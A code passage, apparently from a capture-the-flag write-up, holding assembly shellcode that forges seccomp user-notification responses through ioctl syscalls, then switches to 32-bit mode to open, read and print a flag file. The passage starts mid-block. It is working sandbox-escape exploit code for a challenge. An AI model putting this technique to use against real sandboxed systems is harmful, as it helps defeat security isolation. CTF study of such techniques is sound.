 ```py
    mov ecx, 0xd
    mov rdx,0xcafec00
loop:
    mov qword ptr [rdx],rax
    dec rcx
    add dl,0x8
    cmp rcx,0
    jne loop
recv:
    mov rax,0x10
    mov rdi,r8
    mov rsi,0xc0502100
    mov rdx,0xcafec00
    syscall
copy_id_of_resp:
    mov rax, 0xcafec00
    mov rbx, qword ptr[rax]
    add al,0x50
    mov qword ptr[rax], rbx
set_flags_of_resp:
    add al,0x14
    mov rbx,1
    mov dword ptr[rax], ebx
resp:
    xor rax,rax
    mov al,0x10
    mov rdi,r8
    mov esi,0xC0182101
    mov edx,0xcafec50
    syscall
    jmp parent_process
child_process:
    mov rcx,0x10000
wait_loop:
    dec rcx
    cmp rcx,0
    jne wait_loop
show_flag:
    mov rax,0x230cafe180
    push rax 
'''
X32_showflag ='''
    mov eax, 0x5
    mov ebx,0xcafe1f0
    xor ecx,ecx
    xor edx,edx
    int 0x80
    mov ebx,eax
    mov eax, 3
    mov ecx,esp
    mov cl,0x00
    mov edx,0x200
    int 0x80
    mov eax,0x4
    mov ebx,0x1
    int 0x80
'''

shellcode = asm(shellcode)+b'\xcb'
context.arch = 'i386'
context.bits = 32
shellcode = shellcode.ljust(0x180,b'\0') + asm(X32_showflag)
context.log_level='debug'
```

[1]: https://github.com/osirislab